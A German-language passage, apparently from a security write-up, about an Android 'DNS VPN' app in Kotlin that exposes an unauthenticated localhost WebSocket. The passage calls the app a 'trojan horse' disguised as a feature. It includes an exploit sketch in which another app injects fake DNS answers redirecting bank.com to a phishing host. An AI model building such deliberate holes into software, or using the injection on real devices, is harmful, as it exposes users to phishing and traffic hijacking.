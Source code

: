 ### Die "Feature"-Tarnung

```kotlin
// Das ist dein trojanisches Pferd:
// "Harmlose DNS-App" die aber einen offenen WS-Server exposed

class DnsVpnService : VpnService() {
    private var proxyServer: DnsProxyServer? = null
    
    private fun startVpn() {
        // Öffentlich auf localhost - JEDE App kann verbinden!
        proxyServer = DnsProxyServer(port = 8765).apply {
            start() // Kein Auth, kein Token, nada
        }
        
        val builder = Builder()
            .addAddress("10.0.0.2", 24)
            .addDnsServer("127.0.0.1") // Leitet zu deinem WS
            .addRoute("0.0.0.0", 0)
            .setBlocking(false)
        
        vpnInterface = builder.establish()
    }
}
```

## 🔓 Die Sicherheitslücken

### 1. **Ungeschützter WebSocket Endpoint**
```kotlin
// JEDE App auf dem Gerät kann connecten:
routing {
    webSocket("/") {  // Kein Auth Check!
        for (frame in incoming) {
            // Beliebige DNS-Queries injizieren
            handleDnsQuery(frame.readBytes())
        }
    }
}
```

**Exploit Scenario:**
```kotlin
// Malicious App auf dem gleichen Gerät:
val client = HttpClient(CIO) {
    install(WebSockets)
}

client.webSocket("ws://127.0.0.1:8765") {
    // Inject fake DNS responses
    val fakeQuery = buildDnsQuery("bank.com" to "evil-phishing.com")
    send(Frame.Binary(true, fakeQuery))
}
```
